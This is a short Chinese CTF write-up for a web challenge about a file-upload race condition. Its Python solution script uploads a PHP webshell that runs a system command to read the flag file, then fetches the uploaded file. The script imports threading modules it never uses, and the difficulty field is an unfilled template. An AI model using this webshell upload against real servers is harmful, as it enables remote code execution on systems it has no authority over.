 # 题目名

- 作者：only
- 参考：SVUCTF-WINTER-2023
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Web
- 镜像：-
- 端口：-

## 题目描述

文件上传的条件竞争 Enjoy your Happy New Year Day! Best wishes!!! 

## 题目解析

题目可以使用两种解决办法 一种是python脚本 一种是使用burp

脚本如下

```python
import requests
import concurrent.futures
import threading

url = "" #填写你的url
session = requests.session()

# upload file
files = {'upload': ('xxx.php', '<?php system("cat ../../flag");')}
try:
    session.post(url=url, files=files, timeout=1)
except requests.exceptions.ReadTimeout:
    pass

# access file
resp = session.get(f"{url}/upload/xxx.php")  # 你的shell php
print(resp.text)
```

burp suite 的使用方法有空教你们 原理大差不差 都是竞争
